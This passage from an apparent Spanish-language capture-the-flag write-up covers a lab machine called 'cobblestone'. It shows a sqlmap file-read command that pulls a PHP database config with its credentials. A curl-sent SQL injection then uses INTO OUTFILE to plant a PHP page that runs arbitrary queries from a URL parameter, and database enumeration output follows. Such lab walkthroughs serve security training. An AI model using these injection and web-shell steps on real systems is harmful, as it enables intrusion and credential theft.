 ### SQLi desde la Web (PHP)

Despues de unos dias probando otras formas de acceso, descubri que el mismo archivo de `connection.php` tambien esta en `vote`, lo podemos obtener de esta forma:

```shell
F="/var/www/vote/db/connection.php"; sqlmap -r req.txt --batch -p url --file-read="$F" | grep -F '[*] /root' | awk '{print $2}' | xargs cat
```

Info:

```
<?php

$dbserver = "localhost";
$username = "voteuser";
$password = "thaixu6eih0Iicho]irahvoh6aigh>ie";
$dbname = "vote";

$conn = new mysqli($dbserver, $username, $password, $dbname);

// Check connection
if ($conn->connect_errno > 0) {
    die("Connection failed: " . $conn->connect_error);
}
?>
```

Vemos una contraseña de `DDBB`, vamos a probar a crear un archivo `db.php` en el que se autentique a dicha `DDBB` con esas credenciales y desde la web podamos explorar la `base de datos` con ese usuario.

```shell
SQL="' union select 1,2,3,4,'<?php include(\"../db/connection.php\"); \$sql = \$_GET[0]; \$result = \$conn->query(\$sql); while(\$row = \$result->fetch_array()) { print_r(\$row);} \$conn->close(); ?>' into outfile '/var/www/html/skins/db.php' -- -"; curl -sL 'http://vote.cobblestone.htb/suggest.php' -H 'Cookie: PHPSESSID=<COOKIE>' -d "url=$SQL"
```

Cuando enviemos esto, iremos a la pagina de esta forma:

```
URL = http://cobblestone.htb/skins/db.php?0=show%20databases;
```

Info:

```
1 2 3 4 Array ( [0] => cobblestone [Database] => cobblestone ) Array ( [0] => information_schema [Database] => information_schema ) 
```

Veremos la `DDBB` llamada `cobblestone` si verificamos en que `DDBB` estamos, veremos que estamos en esa, por lo que vamos a listar las tablas:

```
URL = http://cobblestone.htb/skins/db.php?0=show%20tables;
```
